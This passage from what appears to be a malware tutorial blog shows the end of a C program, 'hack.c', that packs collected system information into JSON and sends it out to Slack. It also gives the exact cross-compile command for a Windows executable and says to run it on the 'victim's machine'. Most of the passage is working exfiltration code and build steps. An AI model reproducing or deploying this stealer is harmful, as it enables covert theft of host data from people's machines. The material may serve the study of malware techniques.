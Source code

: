 ```cpp

  char slackMessage[4096];
  snprintf(slackMessage, sizeof(slackMessage), "{\"text\":\"%s\"}", systemInfo);
  int result = sendToSlack(slackMessage);
 
  if (result == 0) {
    printf("sysinfo successfully sent in Slack.\n");
  } else {
    printf("failed to send info to Slack.\n");
  }
 
  return 0;
}
```

For purity of experiment, added some test messages like `meow-meow` before sending sysinfo.     

### demo

Let's go to see this in action. Compile our `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -liphlpapi -lwinhttp
```

![malware](/assets/images/181/2025-10-20_08-59.png){:class="img-responsive"}    

Then, move to the victim's machine (in my case Windows 10 x64 22H2 English VM)and run:      

```powershell
.\hack.exe
```
